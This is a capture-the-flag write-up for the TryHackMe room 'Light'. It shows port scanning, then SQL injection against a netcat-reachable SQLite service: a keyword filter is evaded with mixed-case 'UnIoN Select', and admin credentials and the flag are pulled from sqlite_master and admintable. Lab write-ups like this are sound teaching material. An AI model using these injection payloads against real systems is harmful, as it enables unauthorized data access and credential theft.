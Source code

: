 ```yaml
---
title: "Light"
date: 2025-03-06
image: /assets/img/tryhackme/Light/Light_image.jpg
description: Writeup of the TryHackMe-CTF Light
categories: [TryHackMe, Easy]
tags: [linux, sqli]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Light</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Welcome to the Light database application!</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/lightroom">https://tryhackme.com/room/lightroom</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Light.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.111.47                
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-06 11:12 EST
  Nmap scan report for 10.10.111.47
  Host is up (0.042s latency).
  Not shown: 65533 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  1337/tcp open  waste

  Nmap done: 1 IP address (1 host up) scanned in 20.81 seconds
```

Because of the challenge description, I skipped the nmap script scan and moved on to port 1337.

## Port 1337 Analysis

I started by using netcat to connect to the port 1337:
```bash
$ nc 10.10.111.47 1337        
  Welcome to the Light database!
  Please enter your username:
```

Since the description provided the username `smokey`, I entered it and received the following response:
```bash
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

I tested these credentials with `ssh`, but without success. The application takes user input, verifies it and returns the corrensponding password.  Keeping this in mind, I attempted some format string payloads, but they didn't work either. So, I continued with SQL injection payloads. While experimenting with common SQL keywords and syntax, I got the following results:
```bash
Please enter your username: select
Ahh there is a word in there I don't like :(
Please enter your username: Select
Username not found.
Please enter your username: UnIoN
Username not found.
Please enter your username: union
Ahh there is a word in there I don't like :(
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
Please enter your username: '    
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: 'test
Error: near "test": syntax error
```

Based on these results, I assumed that the SQL query handling the input might look something like this:
```sql
select password from users where username='our input' limit 30;
```

This suggests that there is a single column in the response, which I could potentially exploit using a `UNION` attack:
```bash
Please enter your username: 'Union Select true'
Password: 1
Please enter your username: 'Union Select TryHackMe'
Error: no such column: TryHackMe
```

Thats a success, I managed to break out of the SQL syntax! Now, I needed to gater more information about the database management system to refine my attack:
```bash
Please enter your username: 'Union Select @@version'   
Error: unrecognized token: "@"
Please enter your username: 'Union Select Version()'    
Error: no such function: Version
Please enter your username: 'Union Select sqlite_version()'
Password: 3.31.1
```

Great, it's an SQLite database! This information helped me to dig deeper and find the name of the user table:
```bash
Please enter your username: 'Union Select Sql From sqlite_master'
Password: CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

With this, I was able to extract more useful data from the `admintable`:
```bash
Please enter your username: 'Union Select group_concat(tbl_name) From sqlite_master'
Password: usertable,admintable
Please enter your username: 'Union Select username || ";" || password From admintable'
Password: [removed];[removed]
```

Since only one entry was returned, I checked if there where more:
```bash
Please enter your username: 'Union Select GROUP_CONCAT(username) from admintable'       
Password: [removed],flag
```

The flag entry is exectly what I was looking for:
```bash
Please enter your username: 'Union Select GROUP_CONCAT(password) from admintable'              
Password: [removed],THM{[removed]}
```

solved! :)

